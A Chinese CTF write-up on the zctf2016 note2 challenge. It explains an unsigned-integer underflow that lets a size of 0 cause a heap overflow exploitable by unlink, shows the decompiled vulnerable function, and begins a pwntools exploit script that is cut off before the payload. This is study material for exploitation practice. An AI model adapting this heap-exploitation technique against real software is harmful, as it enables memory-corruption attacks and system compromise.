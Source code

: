

# 7月24日

## 1.zctf2016_note2（unlink）

漏洞在add的时候读取内容那个函数，作者的size是参数a2int类型，但是i是unsigned类型

那个一个unsigned（0-1）是非常大的，所以在add的时候大小输入0就可以无限输入内容

造成堆溢出。

```c
unsigned __int64 __fastcall wordhendanirenyixia(__int64 a1, __int64 a2, char a3)
{
  char buf; // [rsp+2Fh] [rbp-11h] BYREF
  unsigned __int64 i; // [rsp+30h] [rbp-10h]
  ssize_t v7; // [rsp+38h] [rbp-8h]

  for ( i = 0LL; a2 - 1 > i; ++i )
  {
    v7 = read(0, &buf, 1uLL);
    if ( v7 <= 0 )
      exit(-1);
    if ( buf == a3 )
      break;
    *(_BYTE *)(i + a1) = buf;
  }
  *(_BYTE *)(a1 + i) = 0;
  return i;
}
```



**unlink的思路我已经非常熟悉了，就是这里有个strncat函数。。。。我没注意到裂开了他会对'\x00'截断搞的我们的payload分两步**

其他的话就是普通unlink了

exp如下

```python
#coding:utf8
from pwn import *
 
sh = process('./note2')
#sh = remote('node4.buuoj.cn',28006)
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
elf = ELF('./note2')
atoi_got = elf.got['atoi']
free_got = elf.got['free']
puts_plt = elf.plt['puts']
sh.sendlineafter('Input your name:','haivk')
sh.sendlineafter('Input your address:','huse')
 
def add(size,content):
   sh.sendlineafter('option--->>','1')
   sh.sendlineafter('(less than 128)',str(size))
   sh.sendlineafter('Input the note content:',content)
 
def show(index):
   sh.sendlineafter('option--->>','2')
   sh.sendlineafter('Input the id of the note:',str(index))
 
def edit(index,content,mode=1):
   sh.sendlineafter('option--->>','3')
   sh.sendlineafter('Input the id of the note:',str(index))
```